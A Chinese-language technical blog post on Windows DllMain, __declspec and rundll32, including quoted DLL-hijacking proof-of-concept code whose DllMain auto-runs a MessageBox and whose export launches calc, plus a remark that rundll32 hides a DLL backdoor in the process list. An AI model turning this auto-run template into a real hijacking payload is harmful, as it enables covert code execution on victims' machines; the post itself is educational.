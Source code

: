 ```yaml
---
categories:
- Windows编程技术
date: "2019-10-02T00:00:00Z"
description: 深入了解一下DllMain
title: DllMain与rundll32详解
url: /archivers/2019-10-02/1
---
```


## 0x00 DllMain

对于动态链接库，DllMain是一个**可选的**入口函数。

### 程序调用DLL中的导出函数的流程

- 程序调用Windows API `LoadLibrary` 
- 操作系统寻找LoadLibrary所加载的DLL文件
- 操作系统将DLL文件加载至目标程序进程的内存空间
- 程序自动调用`DllMain`函数
- 程序调用DLL中导出函数

**如果DLL被多次`LoadLibrary`，那么`DllMain`只执行一次，引用基数+1。**

### DllMain的原型

```c++
BOOL WINAPI DllMain(
  _In_ HINSTANCE hinstDLL, // 指向自身的句柄
  _In_ DWORD fdwReason, // 调用原因
  _In_ LPVOID lpvReserved // 隐式加载和显式加载
);
```

## 0x01 DllMain调用原因

其中`fdwReason`用来表示Dll被调用的状态，一共分为四种：

- DLL_PROCESS_ATTACH 被进程加载
- DLL_PROCESS_DETACH 被进程释放
- DLL_THREAD_ATTACH  被线程加载
- DLL_THREAD_DETACH  被线程释放

在DllMain中通常为了捕获DLL被调用的方式来进行某些动作：

```c++
BOOL APIENTRY DllMain( HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
　switch (ul_reason_for_call)
　{
　　case DLL_PROCESS_ATTACH:
　　　printf("\nprocess attach of dll");
　　　break;
　　case DLL_THREAD_ATTACH:
　　　printf("\nthread attach of dll");
　　　break;
　　case DLL_THREAD_DETACH:
　　　printf("\nthread detach of dll");
　　　break;
　　case DLL_PROCESS_DETACH:
　　　printf("\nprocess detach of dll");
　　　break;
　}
　return TRUE;
}
```

## 0x02 那些用于测试DLL劫持的DllMain POC

- https://cxsecurity.com/issue/WLB-2018090232
- https://cxsecurity.com/issue/WLB-2015010114

在测试很多DLL劫持的漏洞时，都喜欢用DllMain，是因为DllMain被进程加载或者释放都会自动调用运行。

```c++
#include <windows.h>

BOOL WINAPI DllMain (
            HANDLE    hinstDLL,
            DWORD     fdwReason,
            LPVOID    lpvReserved)
{
    switch (fdwReason)
  {
  case DLL_PROCESS_ATTACH:
    owned();
  case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
  break;
  }
  return TRUE;
}

int owned() {
  MessageBox(0, "iExplorer DLL Hijacked\Hadji Samir", "POC", MB_OK);
}

#include <windows.h>
#define DLLIMPORT __declspec (dllexport)
 
DLLIMPORT void HrCreateConverter() { evil(); }
 
int evil()
{
  WinExec("calc", 0);
  exit(0);
  return 0;
}

```

## 0x03 __declspec


`__declspec`是Microsoft VC中专用的关键字，它配合着一些属性可以对标准C/C++进行扩充。`__declspec`关键字应该出现在声明的前面。

`__declspec(dllexport)`用于Windows中的动态库中，声明导出函数、类、对象等供外面调用，省略给出.def文件。即将函数、类等声明为导出函数，供其它程序调用，作为动态库的对外接口函数、类等。


`__declspec(dllimport)`用于Windows中，从别的动态库中声明导入函数、类、对象等供本动态库或exe文件使用。当你需要使用DLL中的函数时，往往不需要显示地导入函数，编译器可自动完成。


## 0x04 关于rundll32

Rundll32.exe是什么？顾名思意，"执行32位的DLL文件"。它的作用是执行DLL文件中的内部函数，这样在进程当中，只会有Rundll32.exe，而不会有DLL后门的进程，这样，就实现了进程上的隐藏。

-- 百度百科


经过如上解释，可以总结为，rundll32能够运行一个32位的dll文件，并且在进程列表中只能看到rundll32.exe，但是遍历rundll32.exe的模块列表可以看到进程加载的dll。

-----------------------

**并不是所有的dll都能够被rundll32运行。** 为何这么说，因为rundll32只支持特定的函数声明方式，并且该函数必须在dll文件的导出表中。关于导出表的知识可以阅读 - 《Windows PE权威指南》 👍

rundll32.exe支持的函数原型如下：

```
VOID CALLBACK FunctionName (HWND hwnd,HINSTANCE hinst,LPTSTR lpCmdLine,INT nCmdShow);
```

通过原型可以发现，与Windows平台下的`WinMain`一模一样，可以理解为rundll32调用的函数就是一段代码的入口函数。


下面来写一个支持rundll32运行的dll：

1. 使用visual studio新建一个dll工程，并声明函数：`rundll`

```
#include <Windows.h>


extern "C" __declspec(dllexport) void rundll(HWND hwnd,HINSTANCE hinst,LPTSTR lpCmdLine,INT nCmdShow){

	MessageBox(NULL,TEXT("-Test-"),TEXT("Rundll32"),MB_OK);

}
```

![2019-10-02-19-58-36](../../../static/images/75e720c2-4f5f-11ec-9c41-00d861bf4abb.png)

2. 使用rundll32运行dll

![2019-10-02-20-00-18](../../../static/images/76283bde-4f5f-11ec-93a3-00d861bf4abb.png)


通过进程列表查看：

![2019-10-02-20-00-54](../../../static/images/76705fd6-4f5f-11ec-b23c-00d861bf4abb.png)

![2019-10-02-20-04-38](../../../static/images/76b1dda8-4f5f-11ec-8072-00d861bf4abb.png)

使用`wmic process get commandline`也可以获得命令行详情：

![2019-10-02-20-02-49](../../../static/images/76f1a816-4f5f-11ec-8683-00d861bf4abb.png)

还有一种方式是获得该进程加载的模块，这是最精确的了；但windows 7不能直接看到，需要借助工具。（win10可以通过任务查看器看到..）

![2019-10-02-20-08-24](../../../static/images/772f8302-4f5f-11ec-ae6b-00d861bf4abb.png)


**这个dll是没有DllMain也能够正常运行的，并不是所有的dll都有DllMain这个函数**


我经过实验后发现，一个dll有没有DllMain完全取决于当前这个dll对于功能的需求，如果对装载方式的状态没有特定的要求，完全可以省去编写DllMain，因为DllMain不是一个导出函数，永远是一个由系统被动调用的函数。